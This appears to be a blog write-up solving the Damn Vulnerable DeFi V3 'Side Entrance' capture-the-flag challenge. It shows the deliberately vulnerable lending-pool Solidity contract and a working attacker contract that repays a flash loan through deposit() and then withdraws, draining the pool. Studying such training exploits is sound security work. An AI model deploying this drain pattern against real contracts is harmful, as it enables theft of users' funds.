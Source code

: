 ```yaml
---
title: Damn Vulnerable DeFi V3 - Side Entrance - Solution
date: '2023-11-26'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Damn Vulnerable DeFi V3 - Side Entrance CTF
---
```


# Damn Vulnerable DeFi V3 - Side Entrance - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "solady/src/utils/SafeTransferLib.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SideEntranceLenderPool {
    mapping(address => uint256) private balances;

    error RepayFailed();

    event Deposit(address indexed who, uint256 amount);
    event Withdraw(address indexed who, uint256 amount);

    function deposit() external payable {
        unchecked {
            balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];

        delete balances[msg.sender];
        emit Withdraw(msg.sender, amount);

        SafeTransferLib.safeTransferETH(msg.sender, amount);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore)
            revert RepayFailed();
    }
}
```

## Exploit

This challenge is conveniently solved via Remix. First, we deploy the contract from Remix's default account. Next, we call `deposit`, specifying a transaction value of `42000000000000000000 == 42 ether` to fund the pool with its initial balance. (The original assignment described in Damn Vulnerable DeFi specifies a pool with an initial balance of 1000 ether instead of 42 ether. However, bumping the contract's balance up to 1000 ether is quite tedious in Remix. Since the exact pool balance doesn't really matter, we'll assume a pool balance of 42 ether instead of 1000 ether for convenience.)

With the initial setup completed, we now have to find a way to drain all funds from the contract using a different account than the one we used for the deposit.

To achieve that, we can deploy an attacker contract that will perform the following steps:

1. Call `flashLoan` to borrow 42 ether.
2. Pay back the flash loan by calling `deposit` with a value of 42 ether. Notice that this will register a deposit balance of 42 ether for the attacker contract!
3. Call `withdraw` to drain 42 ether from the pool.

All of the above steps can be performed with a single function call to `attack` using the contract shown below. Notice that

1. you must specify the victim contract's address during the deployment of the attacker contract and
2. you must specify `amount = 42000000000000000000` when calling `attack`.

```solidity
// SPDX-License-Identifier: UNLICENSE
pragma solidity ^0.8.0;

import "./SideEntranceLenderPool.sol";

contract SideEntranceLenderPoolAttacker {

    SideEntranceLenderPool public sideEntranceLenderPool;

    constructor(SideEntranceLenderPool _sideEntranceLenderPool) {
        sideEntranceLenderPool = _sideEntranceLenderPool;
    }

    receive() external payable {}

    function execute() external payable {
        sideEntranceLenderPool.deposit{value: msg.value}();
    }

    function attack(uint256 amount) external {
        sideEntranceLenderPool.flashLoan(amount);
        sideEntranceLenderPool.withdraw();
    }
}
```
